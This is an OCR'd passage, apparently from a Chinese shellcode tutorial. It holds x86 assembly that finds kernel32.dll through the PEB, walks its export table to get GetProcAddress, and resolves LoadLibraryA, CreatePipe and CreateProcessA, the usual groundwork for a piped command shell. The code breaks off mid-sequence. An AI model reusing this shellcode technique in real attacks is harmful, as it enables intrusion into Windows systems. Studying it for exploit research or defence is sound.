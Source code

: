 “具体说来，就是要加上如下获取函数地址的代码。”

```
push ebp;
sub esp, 100; 
mov ebp,esp;
mov eax, fs:0x30 ;PEB
mov eax, [eax + 0x0c] ;Ldr
mov esi, [eax + 0x1c] ;Flink
lodsd 
mov edi, [eax + 0x08] ;edi 就是 kernel32.dll 的地址
mov eax, [edi+3Ch] ;eax = PE 首部
mov edx,[edi+eax+78h]
add edx,edi ;edx = 输出表地址
mov ecx,[edx+18h] ;ecx = 输出函数的个数
mov ebx,[edx+20h] 
add ebx,edi ;ebx ＝函数名地址,AddressOfName 
search:
dec ecx
mov esi,[ebx+ecx*4] 
add esi,edi ;依次找每个函数名称
;GetProcAddress
mov eax,0x50746547
cmp [esi], eax; 'PteG'
jne search
mov eax,0x41636f72
cmp [esi+4],eax; 'Acor'
jne search 
;如果是 GetProcA，表示找到了 
mov ebx,[edx+24h]
add ebx,edi ;ebx = 索引号地址,AddressOf
mov cx,[ebx+ecx*2] ;ecx = 计算出的索引号值
mov ebx,[edx+1Ch]
add ebx,edi ;ebx＝函数地址的起始位置，AddressOfFunction
mov eax,[ebx+ecx*4] 
add eax,edi ;利用索引值，计算出 GetProcAddress 的地址
mov [ebp+76], eax ;把 GetProcAddress 的地址存在 ebp+76 中
push 0x0
push dword ptr 0x41797261
push dword ptr 0x7262694c
push dword ptr 0x64616f4c
push esp
push edi 
call [ebp+76]
mov [ebp+80], eax; LoadLibraryA ;把 LoadLibraryA 的地址存在 ebp＋80 中
push dword ptr 0x00006570
push dword ptr 0x69506574
push dword ptr 0x61657243
push esp
push edi 
call [ebp+76]
mov [ebp+4], eax; CreatePipe 0x00006570 69506574 61657243
push dword ptr 0x00004173
push dword ptr 0x7365636f
push dword ptr 0x72506574
push dword ptr 0x61657243
push esp
push edi
call [ebp+76]
mov [ebp+8], eax; CreateProcessA 0x4173 7365636f 72506574 61657243
push dword ptr 0x00000065
push dword ptr 0x70695064
push dword ptr 0x656d614e
push dword ptr 0x6b656550
```